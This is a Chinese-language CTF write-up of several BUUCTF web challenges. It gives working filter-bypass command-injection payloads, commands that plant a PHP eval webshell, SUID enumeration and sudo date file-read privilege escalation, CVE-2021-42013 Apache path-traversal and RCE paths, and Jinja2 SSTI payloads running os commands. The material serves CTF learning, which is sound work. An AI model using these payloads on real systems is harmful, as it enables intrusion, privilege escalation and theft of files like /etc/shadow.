



[buuctf] web区 write up 7
===

## [NewStarCTF 公开赛赛道]So Baby RCE

### 代码审计

典中典之开门审计代码:

```php
 <?php
error_reporting(0);
if(isset($_GET["cmd"])){
    if(preg_match('/et|echo|cat|tac|base|sh|more|less|tail|vi|head|nl|env|fl|\||;|\^|\'|\]|"|<|>|`|\/| |\\\\|\*/i',$_GET["cmd"])){
       echo "Don't Hack Me";
    }else{
        system($_GET["cmd"]);
    }
}else{
    show_source(__FILE__);
}
```

非常一目了然的 RCE, 需要对 `preg_match()` 作 bypass:

### `preg_match()` 函数常见绕过

1. PCRE 回溯上限:

    针对非惰性匹配 (无 `?` 的贪婪模式匹配), 只要构造的模式字符串足够长, 调用链足够深, 就会触发**调用上限**, 函数**抛回 False 值**, 从而实现绕过; 其原理是 php 正则匹配函数是基于 PCRE 实现的, 最直白的来说, 匹配的实质是一个**有限状态自动机**,回溯次数具有**上限**, 不能无限调用;

2. `%0A` 绕过:

    常用于包含 `.` 且不含 `/m` 选项的 `preg_match()`, 默认情况下这种匹配是只限于第一行的, 通过 `%0A` (换行符) 即可实现绕过;

3. 数组绕过:

    传一个数组进去, `preg_match()` 无法处理字符串, 会返回 `False`; 不过没有 `toString()` 直接用 `system()` 执行会报错 (Array);

### 调整 payload

输入 ls 有正常回显, 接下俩考虑怎么绕过就行了:


注意正则中没有过滤控制符, `{}` `$` `&`等字符, 考虑用管道符: 

> 注意 `&&` 需要 url 编码; 该控制符的含义为**严格逻辑与**, 需要前后都为真, 按从左到右顺序执行, 如果左边语句为假, 则直接退出;

```bash
cd${IFS}..%26%26ls
```


成功, 接下来慢慢遍历找就行了:

```bash
cd${IFS}..%26%26cd${IFS}..%26%26cd${IFS}..%26%26cd${IFS}..%26%26ls
```


```bash
cd${IFS}..%26%26cd${IFS}..%26%26cd${IFS}..%26%26cd${IFS}..%26%26ca${Z}t${IFS}ffff${Z}llllaaaaggggg
```

爆出flag: `flag{239fe0bd-010e-450e-afcc-c603d3ecace7} `


## [NewStarCTF 公开赛赛道]So Baby RCE Again

### 代码审计

同样是代码审计开门:

```php
<?php
error_reporting(0);
if(isset($_GET["cmd"])){
    if(preg_match('/bash|curl/i',$_GET["cmd"])){
        echo "Hacker!";
    }else{
        shell_exec($_GET["cmd"]);
    }
}else{
    show_source(__FILE__);
}
```

和上一题最大的区别是没用 `system()` 而是 `shell_exec()`, 其区别在于 `system()` 会打印输出到网页上 (可见), 后者不会。

这一题禁用了 `bash`, `curl` 应该主要是为防反弹 shell 直接把 shell 给弹回去;

那么马上想到可以用 webshell 的方式创建一个木马:

### webshell

创建 webshell 的指令, 有两个示例:

```bash
php -r "file_put_contents('shell.php', '<?php @eval(\$_POST[\"shell\"]);?>');"

# 或者用这个简单版也行;
echo '<?php @eval($_POST[1])?>' > webshell.php

```
> 注意:
> **引号冲突问题**, 一定要用双引号包裹单引号, 因为这里的命令是要放在 shell 里执行, 而 shell 中 `\' => '` 这样的表示方式是不存在的;


蚁剑连接:


找到 flag 之后读不出来, 应该是需要提权

### 提权

#### 枚举

用 find 找找 set UID = root 的文件:

```bash
find / -perm -u=s -type f 2>/dev/null
```


注意到 date 指令是可用的;

#### date 指令

```bash
# 输出当前时间
date

# 格式化输出
date +"%Y-%m-%d %H:%M:%S"

# 需 sudo, 设置系统时间
sudo date -s "2000-01-01 12:00:00"

# 读取文件日期, 这个指令实际上是把目标文件按照
# %Y-%m-%d %H:%M:%S
# 的格式进行读取
date -f filename
```

显然 `sudo date -f /ffll444aaggg` 即可。拿到 `flag{e7a2946a-2d0a-4f5f-bfa6-3cce34647a61}`


读其他文件也是能做到的, 比如 `/etc/shadow`;

## [NewStarCTF 公开赛赛道]Unsafe Apache

> 题目描述:  Check In And The End!

### 信息泄露

点进去是 `index.html` 界面, 没什么内容, 抓包发现问题;


注意发回的包是 304 Not Modified, 结合 apache 了解一下 304 状态码:

304 是 **HTTP 缓存控制的一部分**, 请求中一般会携带 `If-Modified-Since` 或 `If-None-Match`。而服务器启用了 ETag / Last-Modified: 

去掉请求里的这两个标识, 就变成了正常的访问, 响应为 200 , 不过主体没变。


注意 304 响应里也可能有信息, 例如这里的:

```
Server: Apache/2.4.50 (Unix)
Last-Modified: Mon, 11 Jun 2007 18:53:14 GMT
ETag: "2d-432a5e4a73a80"
```

`Server` 爆出了服务保本, Tomcat 生成的 Hash/文件 inode 信息; 而 `Etag` 中的格式为 "文件大小(hex 格式)" + 文件的 inode 或修改时间戳;

### Apache/2.4.50 CVE-2021-42013

根据爆出的这个比较老的版本号搜索漏洞, 能搜到 CVE-2021-42013 **路径穿越**漏洞:

CVE-2021-42013 是由 CVE-2021-41773 的不完整修复导致的漏洞，攻击者可以使用路径遍历攻击将URL映射到由类似别名指令配置的目录之外的文件。

其原理就是对 url 的解析存在问题, 导致 `/icons/` 这个目录下双重编码 `.` 可以绕过服务器对路径穿越 `..` 的过滤:

```
/icons/.%%32%65/
# 或
/icons/.%2e/
```

#### 读取任意文件

试试读 `/etc/passwd`:


#### 执行任意代码 (RCE):

服务器上启用 `mods cgi` 或 `cgid` 后, 从 `/cgi-bin/` 穿越出去的路径可以执行任意代码, 实现方式为用 POST 方法(传参) + 访问 `/bin/bash` / `/bin/sh`:

试试弹个 `whoami` 回来:


接下来尝试读根目录, 这里尝试了 `ls%20/` 发现没有回显, 可能是分步解析的问题, 也许这里需要用 bash 的语法, 换用 `ls{IFS}/` 来代替空格, 成功:


拿到 flag: `flag{d9fa9969-60cf-4727-aa85-d1142da75b2d}`

## [BJDCTF 2nd]fake google

### 审计

仿谷歌界面:


查看源码, 这里有提示是 SSTI:


### SSTI 




说明是 Jinja2 模板;

接下来试两轮, 发现可用 payload:

```python
{{self.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}
```



最终 flag 就在 `/flag 里`

```python
{{self.__init__.__globals__.__builtins__['__import__']('os').popen('cat /flag').read()}}
```



找到 flag `flag{fc6270d5-ac5c-48f6-a473-732ceba5e6a7}`, 比较顺利。

## [SUCTF 2018]Homework

### 代码审计

```php
<?php 
class calc{
	function __construct__(){
		calc();
	}

    # intval() 获取变量的整数值

	function calc($args1,$method,$args2){
		$args1=intval($args1);
		$args2=intval($args2);
		switch ($method) {
			case 'a':
				$method="+";
				break;

			case 'b':
				$method="-";
				break;

			case 'c':
				$method="*";
				break;

			case 'd':
				$method="/";
				break;
			
			default:
				die("invalid input");
		}
		$Expression=$args1.$method.$args2;
		eval("\$r=$Expression;");
		die("Calculation results:".$r);
	}
}
?>
```